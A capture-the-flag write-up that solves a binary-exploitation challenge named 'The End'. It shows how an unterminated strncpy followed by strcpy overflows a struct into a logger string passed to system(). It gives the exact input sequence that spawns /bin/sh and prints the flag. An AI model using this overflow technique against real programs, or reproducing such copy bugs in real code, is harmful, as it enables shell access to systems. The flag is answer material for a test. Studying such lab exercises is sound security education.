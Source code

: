 ## The End

[end](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/end)  
[end.c](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/end.c)

> Let's analyze the main() function

```C
int main() {

    ...
    ...

    char command[COMMAND_MAX_LENGTH];
    snprintf(command, COMMAND_MAX_LENGTH, app.stats.logger,
             app.stats.total_count, app.stats.total_bmi / app.stats.total_count);

    system(command);

    exit(0);
}
```

> The line `system(command);` is key because if we could make command to be `/bin/sh`, we can spawn a shell. Hence our aim is to overflow and write into `app.stats.logger` since it is being copied into the command variable during `snprintf()`.

```C
int main() {
    setup();

    show_menu();

    app.list = (struct Person *) malloc(sizeof(struct Person) * 20);

    strcpy(app.stats.logger, "echo \"-- total: %d, average BMI: %.2f --\" >> log.txt"); //vulnerable
    app.stats.total_bmi = 0;
    app.stats.total_count = 0;

    ...
    ...
}
```

> This is the only place in the code that messes with `app.stats.logger` but it is useless since we can't do anything with it.

```C
void add_person() {
    printf("Index (0-19): ");
    int index = read_int();
    if (index < 0 || index > 19) {
        printf("Aha! Doing something bad huh?");
        return;
    }

    printf("Name: ");
    char *name = read_str();
    strncpy((char *) app.list[index].name, name, NAME_MAX_LENGTH);  // Copy name over safely

    ...
    ...  
```

> In the `add_person()` function we do a `strncpy()` with max length of 16, but it has a vulnerability that if it is not null terminated, it will keep doing its thing. But we cannot simply add characters behind it because it takes in maximum 16 only.

```C
void select_person() {
    printf("Index (0-19): ");
    int index = read_int();
    if (index < 0 || index > 19) {
        printf("Aha! Doing something bad huh?");
        return;
    }

    struct Person *p = &app.list[index];

    strcpy(app.selected.name, p->name);
    app.selected.age = p->age;
    app.selected.gender = p->gender;
    app.selected.height = p->height;
    app.selected.weight = p->weight;
}
```

> In the `select_person()` function we see `strcpy()` of the `name` into `app.selected.name`

```C
struct Info {
    char  logger[COMMAND_MAX_LENGTH];
    int   total_count;
    float total_bmi;
};

struct Person {
    char name[NAME_MAX_LENGTH];
    int  age;
    int  gender;
    int  height;
    int  weight;
};

struct App {
    struct Person *list;
    struct Person selected;
    struct Info   stats;
} app;
```
> Then looking at the struct `App`, after `Person selected` is `Info stats` and inside Info stats we have `char logger` which is what we need to overwrite. Because in struct, the contents are on top of one another, so we can add another Person struct and put `/bin/sh` there (the two persons struct must have adjacent indexes)

```
>>>add person index 0
AAAAAAAAAAAAAAAA
keep reading
keep reading
keep reading
keep reading
>>>add person index 1
/bin/sh
terminate string
doesnt matter
doesnt matter
doesnt matter
```
> For this case, u can use -1 for keep reading (FFFF in hex) u cannot use 1 because it is 0001 and since there's a 0 it will be terminated and we don't want that.

> Then when we call `select_person()` in option 3, the name which is `AAAAAAAAAAAAAAAA/bin/sh` will be put into `app.selected.name` where /bin/sh is overflowed into `app.stats.logger`, then we simply need to run option 4 to break out of the loop and reach the part where `system(command)` is called. The entire flow is as follows:

```
1
0
AAAAAAAAAAAAAAAA
-1
-1
-1
-1

1
1
/bin/sh
0
0
0
0

3
0

3
1

4
```

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Binary%20Exploitation/Medium/the-end/Solved.png)  

`CS2107{tH3_End_7o_ThE_3ND_1s_Th3_Be91nNInG}`
